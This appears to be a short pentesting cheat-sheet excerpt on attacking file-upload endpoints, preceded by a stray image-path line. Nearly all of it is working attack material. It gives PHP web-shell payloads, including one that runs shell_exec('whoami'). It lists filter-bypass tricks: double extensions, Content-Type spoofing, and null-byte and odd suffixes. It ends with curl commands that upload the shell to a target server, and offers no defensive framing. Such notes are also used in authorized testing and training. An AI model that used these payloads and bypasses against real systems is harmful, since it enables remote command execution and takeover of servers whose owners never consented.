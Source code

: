 - Payload:
  - Test if the code was executed
    ```php
    <?php echo "UPLOAD_OK"; ?>
    ```
  - If executed,
    ```php
    <?php echo shell_exec('whoami'); ?>
    ```
- Bypass techniques:
  - Change `shell.php` to `shell.php.jpg`
  - Content-Type spoofing: `curl -F "file=@shell.php;type=image/jpeg"`
    > Change "file" if needed
  - NULL BYTE and Weird suffixes: `shell.php;.jpg`, `shell.php%20`, `shell.php%00.jpg`
- curl example:
  ```bash
  curl -i -X POST -F "file=@shell.php;type=application/x-php" https://target/upload
  curl -i -X POST -F "file=@shell.php;type=image/jpeg" https://target/upload
  # Change "file" if needed.
  ```
